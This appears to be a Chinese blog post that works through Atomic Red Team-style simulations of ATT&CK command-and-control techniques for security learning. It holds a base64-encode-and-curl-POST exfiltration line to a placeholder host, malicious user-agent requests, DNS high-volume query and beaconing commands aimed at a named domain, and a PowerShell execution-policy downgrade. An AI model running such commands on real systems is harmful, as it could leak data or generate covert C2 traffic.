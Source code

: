 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之command-and-control
excerpt: "跟着ATT&CK学安全之command-and-control"
categories: [ATT&CK]
comments: true
---
```

#### 解决无法加载文件 xxxx，因为在此系统上禁止运行脚本
若要在本地计算机上运行您编写的未签名脚本和来自其他用户的签名脚本，请使用以下命令将计算机上的 执行策略更改为 RemoteSigned
```
set-ExecutionPolicy RemoteSigned
```
查看
```
get-ExecutionPolicy
```
#### T1132 - Data Encoding
通常控制命令使用标准的编码进行相互通信
```bash
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```
#### T1071 - Standard Application Layer Protocol
##### 测试1 Malicious User Agents - Powershell
在powershell下运行
```bash
Invoke-WebRequest #{domain} -UserAgent "HttpBrowser/1.0" | out-null
Invoke-WebRequest #{domain} -UserAgent "Wget/1.9+cvs-stable (Red Hat modified)" | out-null
Invoke-WebRequest #{domain} -UserAgent "Opera/8.81 (Windows NT 6.0; U; en)" | out-null
Invoke-WebRequest #{domain} -UserAgent "*<|>*" | out-null
```
##### 测试2 Malicious User Agents - CMD
在cmd下运行
```bash
curl -s -A "HttpBrowser/1.0" -m3 #{domain}
curl -s -A "Wget/1.9+cvs-stable (Red Hat modified)" -m3 #{domain}
curl -s -A "Opera/8.81 (Windows NT 6.0; U; en)" -m3 #{domain}
curl -s -A "*<|>*" -m3 #{domain}
```
##### 测试3 Malicious User Agents - Nix
操作平台:linux
```bash
curl -s -A "HttpBrowser/1.0" -m3 #{domain}
curl -s -A "Wget/1.9+cvs-stable (Red Hat modified)" -m3 #{domain}
curl -s -A "Opera/8.81 (Windows NT 6.0; U; en)" -m3 #{domain}
curl -s -A "*<|>*" -m3 #{domain}
```
##### 测试4 DNS Large Query Volume

输入参数
```
--------------------------------------------------------------------------------------
Name  	|	Description  							|	Type  	|	Default Value
--------------------------------------------------------------------------------------
domain  |	Default domain to simulate against 		|	string 	|	example.com
--------------------------------------------------------------------------------------
subdomain 	Subdomain prepended to the domain name	| 	string 	|	atomicredteam
--------------------------------------------------------------------------------------
query_type 	DNS query type 							|	string 	|	TXT				
--------------------------------------------------------------------------------------
query_volume 	Number of DNS queries to send 		|	integer |	1000
--------------------------------------------------------------------------------------
```
powershell中运行
```bash
for($i=0; $i -le #{query_volume}; $i++) { Resolve-DnsName -type "#{query_type}" "#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}" -QuickTimeout}
```
例如
```bash
for($i=0; $i -le 1000; $i++) { Resolve-DnsName -type "TXT" "atomicredteam.$(Get-Random -Minimum 1 -Maximum 999999).snappyzz.com" -QuickTimeout}
```
#### 测试5 DNS Regular Beaconing
```
.\T1071-dns-beacon.ps1  -Domain snappyzz.com -Subdomain subaaaa -QueryType TXT -C2Interval 30 -C2Jitter 20 -RunTime 30
```
太累了,未完待续